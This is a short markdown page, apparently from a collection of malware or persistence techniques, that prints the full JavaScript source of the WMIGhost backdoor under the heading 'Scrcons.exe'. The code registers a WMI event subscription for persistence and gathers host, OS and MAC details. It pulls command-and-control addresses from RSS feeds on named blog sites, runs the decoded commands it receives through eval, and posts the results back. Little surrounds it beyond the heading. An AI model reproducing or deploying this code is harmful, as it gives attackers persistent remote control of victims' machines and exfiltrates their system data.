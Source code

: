 ## WMIGhost


#### Commands
---

* Scrcons.exe

``
function e(e,t){var n="winmgmts:{impersonationLevel=impersonate}!\\\\.\\root\\subscription",r=GetObject(n+":ActiveScriptEventConsumer").spawninstance_();r.name="ProbeScriptFint",r.scriptingengine="javascript",r.ScriptText=t+"var sOwner='"+e+"';var MAIN=function(){$=this;$.key='W';$.sFeedUrl=sXmlUrl;$.sOwner=sOwner;$.sXmlUrl='';$.oHttp=null;$.oShell=null;$.oStream=null;$.sHostName=null;$.sOSType=null;$.sMacAddress=null;$.sURLParam=null;$.version='2.0.0';$.runtime=5000;$.oWMI=null;$._x=ActiveXObject;};MAIN.prototype={InitObjects:function(){$.oWMI=GetObject('winmgmts:{impersonationLevel=impersonate}!\\\\\\\\.\\\\root\\\\cimv2');$.oShell=new $._x('WScript.Shell');$.oStream=new $._x('ADODB.Stream');$.GetOSInfo();$.GetMacAddress();$.GenerateUrlParam();},WMI:function(sql){return $.oWMI.ExecQuery(sql);},GetOSInfo:function(){var e=new Enumerator($.WMI('Select * from Win32_OperatingSystem'));if(!e.atEnd()){var item=e.item();$.sOSType=item.Caption+item.ServicePackMajorVersion;$.sHostName=item.CSName;}},GetMacAddress:function(){var e=new Enumerator($.WMI('Select * from Win32_NetworkAdapter where PNPDeviceID like \\\"%PCI%\\\" and NetConnectionStatus=2'));if(!e.atEnd()){$.sMacAddress=e.item().MACAddress;}},GenerateUrlParam:function(){var time=new Date();$.sURLParam='cstype=server&authname=servername&authpass=serverpass&hostname='+$.sHostName+'&ostype='+$.sOSType+'&macaddr='+$.sMacAddress+'&owner='+$.sOwner+'&version='+$.version+'&runtime='+$.runtime;$.sURLParam+='&t='+time.getMinutes()+time.getSeconds();},CleanObjects:function(){$.oShell=null;$.oStream=null;var e=new Enumerator($.WMI('Select * from Win32_Process where Name=\\\"scrcons.exe\\\"'));while(!e.atEnd()){e.item().terminate();e.moveNext();}},Decode:function(sourceStr){var keycode=sourceStr.charCodeAt(0);var source=sourceStr.substr(1);var vals=source.split(',');var result='';for(var i=0;i<vals.length;i++){result+=String.fromCharCode(vals[i]^keycode);}return result;},circleDecode:function(sc){var base=sc.charCodeAt(0);var s=base-32;var r='';for(var i=1;i<sc.length;i++){var nc=sc.charCodeAt(i)-s-i+1;if(nc<32){nc=126+(nc-32)%94;}r+=String.fromCharCode(nc);}return r;},MainLoop:function(){$.oHttp=new $._x('Microsoft.XmlHttp');var feedUrlArry=$.sFeedUrl.split(';');var start=new Date();var oXml=new ActiveXObject('MSXML2.DOMDocument.3.0');for(var n=0;n<feedUrlArry.length;n++){var UrlList=new Array();var URLnum=0;try{var tstr=feedUrlArry[n].match('http://.*?\\\\.php');if(tstr!=null){UrlList[URLnum++]=tstr;}else{$.oHttp.Open('GET',feedUrlArry[n],false);$.oHttp.setRequestHeader('User-Agent','Mozilla/5.0 (Windows; U; Windows NT 5.1; rv:1.9.1) Gecko/20090624 Firefox/3.5');$.oHttp.Send();var response=$.oHttp.ResponseText.replace(/(^\\s*)|(\\s*$)/g,'');var re=/<title>@(.*)@<\\/title>+/g;var titleList=response.match(re);for(var i=0;i<titleList.length;i++){try{oXml.loadXML(titleList[i]);var container=oXml.getElementsByTagName('title');var tmpstr=container[0].text.match('@(.*)@');UrlList[URLnum++]=$.circleDecode(tmpstr[1]);}catch(e){}}}for(var Urlindex=0;Urlindex<UrlList.length;Urlindex++){$.sXmlUrl=UrlList[Urlindex];var runnum=360;while(runnum-->0){$.oHttp.Open('POST',$.sXmlUrl,false);$.oHttp.setRequestHeader('CONTENT-TYPE','application/x-www-form-urlencoded');$.oHttp.Send($.sURLParam);var response=$.oHttp.ResponseText.replace(/(^\\s*)|(\\s*$)/g,'');if(response.length>0){var commands=null;var container;try{oXml.loadXML(response);container=oXml.getElementsByTagName('div');for(var i=0;i<container.length;i++){if(container[i].getAttribute('id')=='0a552b5a4352'){commands=eval('('+container[i].text+')').command;}}}catch(e){}if(commands!=null){var commandresult='';for(var i=0;i<commands.length;i++){var result='no response';try{result=eval($.Decode(commands[i].value));}catch(e){}if(i>0){commandresult+=',';}commandresult+='\\''+commands[i].id+'\\':\\''+escape(result)+'\\'';}if(commandresult.length>0){commandresult='{'+commandresult+'}';$.oHttp.Open('POST',$.sXmlUrl,false);$.oHttp.setRequestHeader('CONTENT-TYPE','application/x-www-form-urlencoded');$.oHttp.Send($.sURLParam+'&command=result&commandresult='+commandresult);}}else{$.sXmlUrl='';runnum=0;}}$.runtime=(new Date()).getTime()-start.getTime();WScript.Sleep(10000);}if($.sXmlUrl.length>0){return;}}}catch(e){}}},Fire:function(){$.InitObjects();try{$.MainLoop();}catch(e){}$.CleanObjects();}};new MAIN().Fire();";var i=r.Put_();r=GetObject(n+":__IntervalTimerInstruction").spawninstance_(),r.Timerid="ProbeScriptFint",r.IntervalBetweenEvents=6e3,r.Put_(),r=GetObject(n+":__EventFilter").spawninstance_(),r.name="ProbeScriptFint",r.Query='select * from __timerevent where timerid="ProbeScriptFint"',r.QueryLanguage="WQL";var s=r.Put_();return r=GetObject(n+":__FilterToConsumerBinding").SpawnInstance_(),r.Consumer=i.path,r.Filter=s.path,r.Put_(),""};e("XDD",'var sXmlUrl="http://kumardeep.sosblogs .com/The-first-blog-b1/RSS-b1-rss2-posts.htm;http://blogs.rediff .com/anilchopra/feed/;http://www.blogster .com/kapoorsunil09/profile/rss";');
``
